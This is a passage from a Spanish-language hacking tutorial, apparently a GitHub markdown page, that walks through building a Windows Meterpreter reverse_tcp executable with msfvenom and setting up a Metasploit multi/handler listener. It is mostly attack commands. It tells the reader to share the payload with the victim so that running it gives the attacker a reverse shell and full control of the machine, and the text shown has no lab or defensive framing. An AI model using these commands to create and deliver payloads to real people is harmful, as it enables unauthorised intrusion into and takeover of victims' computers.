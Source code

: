    Con esto configurado, ejecutamos el listener con el comando `run`.

   ```bash
   msf6 exploit(multi/handler) > run
   ```

   Esto nos permitirá automáticamente ingresar a una sesión con una shell.
### Creación de Payload de Meterpreter para Windows

1. **Creación del Payload**

	Primero generamos nuestro payload específicamente diseñado para sistemas Windows. Este payload establecerá una conexión de retorno hacia el atacante a través de TCP, utilizando la dirección IP y el puerto especificados. El payload será empaquetado en un archivo ejecutable (EXE) con el nombre indicado como se muestra a continuación:

	```bash
	msfvenom -p windows/meterpreter/reverse_tcp --platform SO LHOST=ip LPORT=puerto -f exe -o archivo.exe
	```

	Una vez generado, este payload debe ser compartido con la víctima.

2. **Configuración del Listener**

	Ingresamos a Metasploit para luego cargar el exploit del listener. Además, configuramos las opciones para que este funcione correctamente. Específicamente, configuramos el payload que queremos utilizar, luego establecemos `LHOST`, donde indicamos nuestra dirección IP de atacante, y finalmente `LPORT`, donde indicamos el puerto donde estaremos en escucha.

	```bash
	msf6 > use exploit/multi/handler
	msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
	msf6 exploit(multi/handler) > set LHOST ip
	msf6 exploit(multi/handler) > set LPORT puerto
	```

	Con todo configurado, ejecutamos el listener con el comando `run`.

	```bash
	msf6 exploit(multi/handler) > run
	```

	Cuando la víctima ejecute el payload, recibiremos una reverse shell en nuestra máquina, lo que nos permitirá obtener control total sobre la máquina comprometida.



